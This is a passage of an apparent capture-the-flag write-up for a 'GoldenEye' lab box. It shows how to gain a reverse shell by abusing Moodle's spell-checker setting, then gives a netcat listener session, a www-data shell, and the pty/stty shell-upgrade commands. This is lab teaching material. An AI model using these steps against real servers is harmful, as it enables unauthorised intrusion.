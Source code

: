 ![Golden Eye - Aspell](Images/GoldenEye-Aspell.png)


### As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.
- Now we need to trigger the Spell checker
- Goto `Navigation -> Site Pages -> Stie Blogs -> Add new`
- Now `Toggle Spell Checker` to get a reverse shell:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.251.158] 36814
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ python -c 'import pty; pty.spawn("/bin/bash")'
<.9/plugins/spellchecker$ python -c 'import pty; pty.spawn("/bin/bash")'     
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ export term=XTERM
export term=XTERM
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ^Z
[1]+  Stopped                 nc -lvnp 1234

$ stty raw -echo; fg
nc -lvnp 1234

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 
```

---
